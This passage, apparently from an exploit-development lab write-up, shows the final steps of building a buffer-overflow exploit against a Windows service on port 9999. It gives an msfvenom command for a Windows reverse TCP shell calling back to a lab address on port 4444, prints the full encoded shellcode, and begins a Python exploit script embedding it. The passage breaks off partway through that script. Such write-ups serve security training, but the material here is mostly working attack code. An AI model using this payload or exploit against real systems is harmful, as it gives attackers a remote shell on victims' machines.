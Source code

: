 Great\! All that’s left is to insert a shellcode. Let’s do that.

## Getting shell

We can create a reverse shellcode using `msfvenom` from Metasploit:

``` console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1807 bytes
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"
```

And with that, we can have the final exploit:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
```